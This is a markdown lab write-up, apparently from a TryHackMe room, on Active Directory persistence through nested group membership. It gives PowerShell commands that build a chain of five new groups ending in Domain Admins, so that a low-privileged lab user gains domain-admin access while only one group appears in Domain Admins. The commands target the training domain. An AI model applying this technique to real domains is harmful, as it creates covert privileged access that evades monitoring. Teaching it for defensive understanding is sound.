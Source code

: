 # Persistence Through Group Membership in Active Directory

If we don't want to tamper with SID histories, we can add ourselves directly to AD groups for persistence. While SID history is a great persistence technique, credential rotation and cleanup can still remove our persistence. In certain cases, it may be better to perform persistence by targeting the AD groups themselves.

## Why Use Group Membership for Persistence?

As discussed previously, the most privileged account or group is not always the best for persistence. Privileged groups (e.g., **Domain Admins**, **Enterprise Admins**) are monitored more closely for changes. Any group classified as a protected group receives additional security scrutiny. For persistence, it may be more effective to target less obvious groups:

- **IT Support group**: Can reset user passwords, potentially allowing lateral movement.
- **Groups with local administrator rights**: Often less monitored than protected groups, but can provide significant access.
- **Groups with indirect privileges**: For example, those with ownership over Group Policy Objects (GPOs).

## Nested Groups

Most organizations use recursive (nested) groups for structure. For example, the **IT Support** group may contain subgroups like **Helpdesk**, **Access Card Managers**, and **Network Managers**. All users in these subgroups inherit the permissions of the parent group, but can also have more granular permissions.

While nesting helps organize AD, it reduces visibility of effective access. For example, querying the **IT Support** group may only show three members (the subgroups), but the real access includes all users in those subgroups, and potentially their subgroups as well. This complicates both enumeration and monitoring.

### Monitoring Challenges

Alerts may be set up to trigger when a new member is added to a privileged group (e.g., **Domain Admins**), but not when a user is added to a subgroup. This gap can be exploited for persistence by targeting subgroups rather than the main privileged group.

## Leveraging Nested Groups for Persistence

Instead of adding ourselves directly to a privileged group, we can add ourselves to a less-monitored subgroup that is nested within a privileged group.

### Example: Simulating Persistence with Nested Groups

To simulate this, prepend your username to all groups you create. Here’s how to create a chain of nested groups and ultimately gain privileged access:

1. **Create a base group in the IT OU:**
    ```powershell
    New-ADGroup -Path "OU=IT,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 1" -SamAccountName "<username>_nestgroup1" -DisplayName "<username> Nest Group 1" -GroupScope Global -GroupCategory Security
    ```

2. **Create another group in the Sales OU and nest the previous group:**
    ```powershell
    New-ADGroup -Path "OU=SALES,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 2" -SamAccountName "<username>_nestgroup2" -DisplayName "<username> Nest Group 2" -GroupScope Global -GroupCategory Security 
    Add-ADGroupMember -Identity "<username>_nestgroup2" -Members "<username>_nestgroup1"
    ```

3. **Repeat for additional groups:**
    ```powershell
    New-ADGroup -Path "OU=CONSULTING,OU=PEOPLE,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 3" -SamAccountName "<username>_nestgroup3" -DisplayName "<username> Nest Group 3" -GroupScope Global -GroupCategory Security
    Add-ADGroupMember -Identity "<username>_nestgroup3" -Members "<username>_nestgroup2"

    New-ADGroup -Path "OU=MARKETING,OU=PEOPLE,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 4" -SamAccountName "<username>_nestgroup4" -DisplayName "<username> Nest Group 4" -GroupScope Global -GroupCategory Security
    Add-ADGroupMember -Identity "<username>_nestgroup4" -Members "<username>_nestgroup3"

    New-ADGroup -Path "OU=IT,OU=PEOPLE,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 5" -SamAccountName "<username>_nestgroup5" -DisplayName "<username> Nest Group 5" -GroupScope Global -GroupCategory Security
    Add-ADGroupMember -Identity "<username>_nestgroup5" -Members "<username>_nestgroup4"
    ```

4. **Add the last group to the Domain Admins group:**
    ```powershell
    Add-ADGroupMember -Identity "Domain Admins" -Members "<username>_nestgroup5"
    ```

5. **Add your low-privileged user to the first group:**
    ```powershell
    Add-ADGroupMember -Identity "<username>_nestgroup1" -Members "<low privileged username>"
    ```

### Verifying Access

Your low-privileged user should now have privileged access. For example, using an SSH terminal:

```shell
za\aaron.jones@THMWRK1 C:\Users\aaron.jones> dir \\thmdc.za.tryhackme.loc\c$\
```

You can also verify that only one new member appears in the **Domain Admins** group:

```powershell
Get-ADGroupMember -Identity "Domain Admins"
```

Example output:
```
distinguishedName : CN=Administrator,CN=Users,DC=za,DC=tryhackme,DC=loc
name              : Administrator
objectClass       : user
SamAccountName    : Administrator

distinguishedName : CN=Am0 Net Group 5,OU=IT,OU=People,DC=za,DC=tryhackme,DC=loc
name              : Am0 Net Group 5
objectClass       : group
SamAccountName    : am0_nestgroup5
```

## Caution

In a real organization, you would use existing groups for nesting rather than creating new ones. Creating unnecessary groups can break the AD structure and cause significant issues, potentially requiring a full rebuild of the AD environment.
